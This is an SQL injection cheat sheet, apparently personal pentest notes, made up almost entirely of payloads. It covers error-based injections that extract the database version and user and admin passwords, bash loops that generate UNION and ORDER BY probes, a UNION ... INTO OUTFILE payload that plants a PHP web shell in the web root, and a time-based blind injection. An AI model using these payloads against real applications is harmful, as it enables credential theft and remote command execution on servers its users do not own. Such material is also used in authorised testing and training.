 
### Error-based SQL injection 

```sql

d2cy' OR 1=1 -- //
d2cy' or 1=1 in (select @@version) -- //
d2cy' or 1=1 in (select version()) == //

' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

```

### UNION Based SQL injection

#### Find no. of columns
```bash

for i in {1..5}; do echo -n "' ORDER BY $i-- //\n"; done    #  Generate ' ORDER BY x-- //

for i in {1..5}; do echo "' UNION SELECT $(printf 'null,'%.0s {1..$i})null-- -"; done    # Generate UNION SELECT null,null-- - 

```

#### Upload Shell

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### Blind SQLi

```sql
' AND IF (1=1, sleep(3),'false') -- //

```

